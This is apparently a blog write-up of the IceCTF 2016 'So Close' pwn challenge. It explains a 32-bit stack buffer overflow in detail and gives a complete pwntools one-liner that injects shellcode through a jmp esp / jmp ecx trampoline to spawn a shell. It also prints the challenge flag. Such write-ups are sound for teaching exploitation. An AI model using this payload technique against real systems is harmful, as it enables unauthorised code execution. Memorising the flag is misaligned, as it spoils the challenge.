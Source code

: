 Title: IceCTF 2016 - So Close
Date: 2016-09-02 14:00
Category: CTF
Tags: icectf2016 ctf pwn
Slug: icectf-2016-so-close
Authors: wumb0

Challenge description
> Yet so far :(
> /home/so_close on the shell.

Jumping right in I checked the binary's security with checksec and loaded it up in radare2:
<script type="text/javascript" src="https://asciinema.org/a/967jkjxy4qlevon796harltie.js" id="asciicast-967jkjxy4qlevon796harltie" async></script>
No NX and a call to read over stack data... sounds like a simple stack based buffer overflow.
[[more]]

The buffer that is read into is of size 0x118 - 0x10 = 264 bytes. Since I'm lazy I used strace to figure out the number of bytes it was reading:
```
→ strace ./so_close 1000
execve("./so_close", ["./so_close", "1000"], [/* 29 vars */]) = 0
[ Process PID=20494 runs in 32 bit mode. ]
brk(0)                                  = 0x93a6000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfffffffff7746000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=50645, ...}) = 0
mmap2(NULL, 50645, PROT_READ, MAP_PRIVATE, 3, 0) = 0xfffffffff7739000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/i386-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0P\234\1\0004\0\0\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0755, st_size=1754876, ...}) = 0
mmap2(NULL, 1763964, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xfffffffff758a000
mprotect(0xf7732000, 4096, PROT_NONE)   = 0
mmap2(0xf7733000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1a8000) = 0xfffffffff7733000
mmap2(0xf7736000, 10876, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xfffffffff7736000
close(3)                                = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfffffffff7589000
set_thread_area(0xffe6f130)             = 0
mprotect(0xf7733000, 8192, PROT_READ)   = 0
mprotect(0xf7769000, 4096, PROT_READ)   = 0
munmap(0xf7739000, 50645)               = 0
fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 7), ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfffffffff7745000
write(1, "something something something..\n", 32something something something..
) = 32
read(0, "", 272)                        = 0
exit_group(0)                           = ?
+++ exited with 0 +++
```

Looks like 272 bytes. So 272 over a 264 byte buffer means a 12 byte overflow. That doesn't sound like a lot, so I loaded up ing gdb and passed in a cyclic pattern:
<script type="text/javascript" src="https://asciinema.org/a/6cze13243l5zuxr2vmr6bx8lm.js" id="asciicast-6cze13243l5zuxr2vmr6bx8lm" async></script>

So I control EIP and what ESP points to, which are one right after the other in the buffer. Looking at the contents of ECX shows that it is the start of the input buffer. If there was some way to jump to ECX then I could execute shellcode, since NX was disabled. After a bit of tinkering, my solution ended up being to find a `jmp esp`, and assemble  `jmp ecx` where ESP was pointing. I assumed ASLR was enabled, but it should not matter in this case. 

The steps I needed to take are as follows:

1. Find a `jmp esp` in the binary

2. Assemble `jmp ecx` and figure out it's length so I know how to craft the exploit buffer

3. Craft an exploit buffer

4. ????

5. Profit :)

To find a `jmp esp` all I needed to do was use the assembly opcode search feature of radare2:
```
/c jmp esp
0x0804859f   # 2: jmp esp
```

Score. Next, assembling `jmp ecx` was done with the `asm` function of pwntools:
```
python -c 'from pwn import *;len(asm("jmp ecx"))'
2
```

Then, crafting an exploit buffer... I needed the buffer to look something like this:

`[shellcode][asm(jmp ecx)*2][jmp esp][asm(jmp ecx)*2][jmp esp][asm(jmp ecx)*2][jmp esp]...`

`[asm(jmp ecx)*2][jmp esp]` would need to repeat until the end of the buffer to cause the overflow to happen. With this in mind I began to experiment in gdb to eventually get a shell:

<script type="text/javascript" src="https://asciinema.org/a/3ztqtfy8ykstkr0bh00cvyel5.js" id="asciicast-3ztqtfy8ykstkr0bh00cvyel5" async></script>

A little recap of what happened in that last video:

- The length of the shellcode generated by pwntools was 22 bytes

- The total buffer length needed to be 268 to overflow properly

- 268-22 is the needed length minus the shellcode length

- ("iiii" + "jjjj") was multiplied by ((268-22)/8) because of the length required after shellcode and because it was 8 bytes long. However, extra padding (the "aaaaaa") needed to be added because 268-22 is 246, which when divided by 8 is 30R6. That remainder needs to be fulfilled in order to make the buffer long enough to trigger the bug

- "iiii" was replaced with `asm("jmp ecx")*2` because it was the contents of where esp was pointing. It was multiplied by 2 to fit our test with "iiii" and "jjjj" because it is two bytes in length when assembled (\*2 is the 4 bytes needed).

- "jjjj" was replaced with `0x0804859f` because that is the address of `jmp esp` we found above. "jjjj" was in for our test, so in order to make the program execute the `jmp ecx` we assembled earlier. We need that `jmp esp` because esp points to our assembled `jmp ecx`.

- Remember that our shellcode is located at the beginning of the buffer, and ecx points to the beginning of the buffer. So jumping to ecx executes the shellcode.

- ;cat was added to the end of the python command to keep stdin open. This is a common trick for exploitation problems. [check here for a bit of detail](http://unix.stackexchange.com/a/103893)

Running this on the binary on the server gave the following:
```
(python -c 'from pwn import *; print asm(shellcraft.i386.linux.sh()) + (asm("jmp ecx")*2 + p32(0x0804859f))*((268-22)/8) + "aaaaaa"'; cat) | /home/so_close/so_close
something something something..
cat /home/so_close/flag.txt
IceCTF{eeeeeeee_bbbbbbbbb_pppppppp_woooooo}
```

Flag: 
**IceCTF{eeeeeeee_bbbbbbbbb_pppppppp_woooooo}**
